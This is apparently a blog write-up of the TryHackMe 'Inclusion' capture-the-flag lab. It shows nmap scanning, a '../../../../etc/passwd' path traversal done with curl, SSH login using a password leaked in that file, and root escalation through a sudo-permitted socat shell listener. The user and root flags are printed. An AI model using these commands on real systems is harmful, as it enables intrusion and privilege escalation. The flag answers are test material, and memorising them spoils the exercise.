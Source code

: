 ```yaml
---
title: "Inclusion"
date: 2020-03-16T18:42:36+01:00
draft: false
tags: ["ctf", "tryhackme", "LFI", "socat"]
---
```


Hi guys, after long time I have 5 minutes for playing game, so let's play.
I see new game called __Inclusion__ with describe __A beginner level LFI challenge__.
Yes, this is something I want to play and have been done quick.

So I am starting VPN tunnel to our playground and click on magic button __Deploy machine__.

As always first scan ports opened on the machine.
```bash
$ nmap -T4 -sV 10.10.131.100 --top 100                              
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-16 18:30 CET   
Nmap scan report for 10.10.131.100     
Host is up (0.15s latency).                                                                                                                                   
Not shown: 98 closed ports                                                     
PORT   STATE SERVICE VERSION                                                   
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
                                                                               
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                
Nmap done: 1 IP address (1 host up) scanned in 9.86 seconds         
```

Okay, so some default ports opened. Open the browser, read the articles, we can see, that there is only one parameter
called __name__ of article.

```bash
GET /article?name=lfiattack
...
Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.



http://example.com/?file=../../../../etc/passwd
...
```

Okey, so at first we can try the version of LFI in the example. Let's use CLI

```bash
$ curl 'http://10.10.131.100/article?name=../../../../etc/passwd'
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
...
```

It looks like we have password in the comment of the file __/etc/passwd__
- #falconfeast:rootpassword

so let's use __ssh__ with the gained username/password

```bash
$ ssh falconfeast@10.10.131.100                                                                                                                   
The authenticity of host '10.10.131.100 (10.10.131.100)' can't be established.                                                                                
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.                                                                                  
Are you sure you want to continue connecting (yes/no)? yes                                                                                                    
Warning: Permanently added '10.10.131.100' (ECDSA) to the list of known hosts.
rfalconfeast@10.10.131.100's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar 16 23:06:55 IST 2020

  System load:  0.01              Processes:           84
  Usage of /:   34.8% of 9.78GB   Users logged in:     0
  Memory usage: 64%               IP address for eth0: 10.10.131.100
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

3 packages can be updated.
3 updates are security updates.


Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
$ falconfeast@inclusion:~$ ls
articles  user.txt
$ falconfeast@inclusion:~$ cat user.txt 
60989655118397345799
```

In falconfeast's homedir we can find the __user.txt__ file with the flag
__user flag__
- 60989655118397345799

but how to get the __root flag__?
let's look for options

```bash
$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Okay, we can run __socat__ under root priviledges without password. That's enough for us.

- On remote machine
```bash
$ sudo socat TCP-LISTEN:1111,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
```

- On local machine
```bash
$ socat FILE:`tty`,raw,echo=0 TCP:10.10.131.100:1111
sh: 0: can't access tty; job control turned off
# pwd
/home/falconfeast
# cd /root
# ls
root.txt
# cat root.txt
42964104845495153909
```

Ou yeah, we have root priviledges! :)
__root flag__
- 42964104845495153909

[socat](https://linux.die.net/man/1/socat) is really strong network utility, I recommend to read more about it.
Have a another nice day with COVID-19.
bye;)
